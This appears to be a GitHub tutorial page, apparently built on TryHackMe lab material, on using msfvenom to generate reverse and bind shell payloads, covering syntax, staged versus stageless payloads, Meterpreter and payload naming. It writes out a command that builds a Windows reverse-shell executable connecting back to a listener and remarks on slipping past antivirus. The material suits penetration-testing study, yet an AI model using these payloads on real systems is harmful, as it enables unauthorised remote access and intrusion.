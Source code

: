 
<h1>$${\color{red}MSFvenom}$$</h1>

- Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py).

******

The standard syntax for msfvenom is as follows:

```
msfvenom -p <PAYLOAD> <OPTIONS>
```
<br>

***For example***, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

<br>

<br>
<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/d4d992bc-545f-44ce-87df-e1ea775ed8dc">
</p>


Here we are using a payload and four options:


- ```-f <format>```
  * Specifies the output format. In this case that is an executable (exe)
- ```-o <file>```
  * The output location and filename for the generated payload.
- ```LHOST=<IP>```
  * Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
- ```LPORT=<port>```
  * The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

************

- ***Staged vs Stageless***

> Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

   - Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
    
   - Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

****************

- Meterpreter

On the subject of Metasploit, another important thing to discuss is a Meterpreter shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they must be caught in Metasploit.

******************

> [!IMPORTANT]
> THIS HARD PART


- #### ***Payload Naming Conventions***

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:


```<OS>/<arch>/<payload>```

For example:


``` linux/x86/shell_reverse_tcp ```

<br>

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

``` windows/shell_reverse_tcp ```

<br>

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.
In the above examples the payload used was ```shell_reverse_tcp``` . This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores ( ```_``` ). The staged equivalent to this payload would be:


``` shell/reverse_tcp ```

<br>

As staged payloads are denoted with another forward slash ( ```/``` ).

- This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

  * ``` windows/x64/meterpreter/reverse_tcp ```

- A Linux 32bit stageless Meterpreter payload would look like this:

  * ``` linux/x86/meterpreter_reverse_tcp ```

************

Aside from the ```msfconsole```  man page, the other important thing to note when working with msfvenom is:

``` msfvenom --list payloads ```

<br>

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads. For example:

<br>
<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/a90bdfd0-4d1f-46c1-9f9b-f33273adce6f">
</p>

This gives us a full set of Linux meterpreter payloads for 32bit targets.

<br>

if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:








